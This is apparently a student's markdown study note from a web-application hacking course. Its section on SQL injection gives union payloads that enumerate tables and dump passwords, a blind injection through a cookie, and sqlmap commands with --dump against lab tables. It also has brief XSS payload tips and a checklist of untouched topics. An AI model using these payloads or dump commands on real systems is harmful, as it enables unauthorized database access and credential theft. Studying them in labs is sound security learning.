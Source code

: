 
- [ ] SQL- Union | Blind

## Union
https://portswigger.net/web-security/sql-injection/cheat-sheet

Single & Double quotes
```
jeremy' or 1=1# 
```

at the end will use the terminator # aka pound sign or we can even use
```
jeremy' or 1=1-- -
```

Version
```
version()
```


```
jeremy' union select null,null,table_name from information_schema.tables#
```

```
jeremy' union select null,null,column_name from information_schema.columns#
```

```
jeremy' union select null,null,password from injection0x01#
```


## Blind

As we put wrong password we can see that it generated error (i.e. change in content lenght) and also we viewed in render in response code

Than will try username = jeremy' or 1=1#
but will encode it using ctrl + u 
```
username=jeremy'+or+1%3d1%23%26password=password
```

Sqlmap
Copy the request and paste into a txt file -> req.txt

>[! bug] Look for Injection Points
- user agents and think out of the box

```
Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#; 
```

On a live target Mentor says to reduce the number of requests as will get limited request like 3 to 5.
```
sqlmap -r req.txt
```


```
substring((select version()), 1,1) = '7'#
```


```
sqlmap -r req2.txt --level=2 --dump -T injection0x02
```




- [ ] XSS -DOM | Stored


```
alert(1)
```

is the most famous cross site scripting payload that you will come across.
Avoid using alter(1) cuz of the changes in Chrome and also how often it's filtered and detected.

>[]Mentor recommend when u're testing for XSS either use print or prompt


Reflected


Stored


DOM-based



- [ ] Command Injection - Blind

- [ ] Insecure File Upload - Basic | Magic Bytes

- [ ] Authentication - Brute Force | MFA

- [ ] XXE

- [ ] IDOR

